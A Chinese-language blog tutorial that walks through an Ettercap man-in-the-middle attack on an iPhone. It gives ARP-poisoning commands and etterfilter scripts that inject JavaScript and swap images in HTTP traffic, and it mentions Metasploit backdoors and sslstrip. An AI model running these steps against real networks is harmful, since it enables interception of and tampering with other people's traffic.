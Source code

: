 ```yaml
---
layout:     post
title:      Ettercap使用小结
date:       2015-11-12 11:40:25
author:     Hsmouc
summary:    用ettercap工具进行ARP毒化和中间人攻击，注入脚本。    
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

#ettercap简介：
ettercap是一个进行中间人攻击的全面工具套装，它可以嗅探数据和玩一些其他有意思的把戏…… 我从官网介绍上随意翻译的=_=
#一次中间人攻击实例
- 工具： Ettercap Wireshark 
- 攻击者：Mac OS X 10.10.5
- 目标：iPhone （iOS 9.1）
##step1
打开内核ip转发功能，否则会导致被攻击的对象无法上网。在终端里输入
{% highlight c %}
sudo sysctl net.inet.ip.forwarding=1
{% endhighlight %}
终端提示
{% highlight c %}
net.inet.ip.forwarding: 0 -> 1
{% endhighlight %}
这样就可以开始进行ARP毒化和中间人攻击了。(注意：这是Mac OS X系统的命令，Linux系统请自行Google)
##step2
###嗅探   
ettercap提供了四种用户界面
{% highlight c %}
Text Only – ‘-T’ option
Curses – ‘-C’ option
GTK – ‘-G’ option
Daemon – ‘-D’ option
{% endhighlight %}
我使用的是命令行模式，感觉它UI做的好丑。    
下面是ARP毒化的指令
{% highlight c %}
sudo ettercap -T -q -i en0 -M ARP:remote /192.168.1.4/ /192.168.1.1/
{% endhighlight %}
T参数是Text Only，q参数是安静模式，M参数表示MITM即中间人攻击。192.168.1.4是iPhone的ip地址，192.168.1.1是路由的ip地址。  
  使用该命令后，攻击开始，按q键结束。同时打开Wireshark即可看到目标访问的所有http链接的明文内容。如下图所示：![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg0unp7oj311t0np479.jpg)
###使用插件      
在ettercap可以使用自己编写的插件来实现一些功能，当然ettercap也提供了一些插件。在/usr/local/bin/目录下用vim新建.filter文件。   
我们先尝试注入代码让目标浏览网页时弹窗，代码如下：
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Accept-Rubbish!");
        # note: replacement string is same length as original string
        msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('test');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('test');</script>");
    msg("Injecting OK!!\n");
}
{% endhighlight %}
接着在终端中输入：
{% highlight c %}
etterfilter window.filter -o windowtest3.ef
{% endhighlight %}
简单解释下，可以输入etterfilter -h来获得帮助，o参数是输出文件名。   
效果如下图所示：
![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg212emhj30hs0vkah0.jpg)
再尝试下替换网页的图片试试，还是和上面一样直接上源码；
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   replace("IMG SRC=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   msg("Filter Ran.\n");
}
{% endhighlight %}
我找了个小埋的图片233，看看效果；
![](http://ww4.sinaimg.cn/mw690/005WMcFzgw1exyg1u3hdsj30hs0vktdi.jpg)
![](http://ww3.sinaimg.cn/mw690/005WMcFzgw1exyg1or9cbj30hs0vk13q.jpg)
![](http://ww2.sinaimg.cn/mw690/005WMcFzgw1exyg10kyknj30hs0vkdv6.jpg)
还可以通过插件来替换对方的下载内容，配合Metasploit生成后门甚至可以完全控制目标计算机。我还没测试过是否能用……
#小结
中间人攻击和中间人毒化利用了ARP(地址解析协议)的固有漏洞，操作简单但是危害极大，原来我一直是主张计算机裸奔党，从来不用杀软。然而对于小白来说，喜欢乱点的同学们，你们真的需要杀毒软件来保护你们的电脑不被入侵。杀毒软件弹个窗请看清楚再关……    
对了，突然想起来https协议就算是用ettercap＋Wireshark也是看不到传输内容的，但是通过sslstrip就可以突破ssl获取密码了，以后有时间再进行测试吧，今天就写到这里。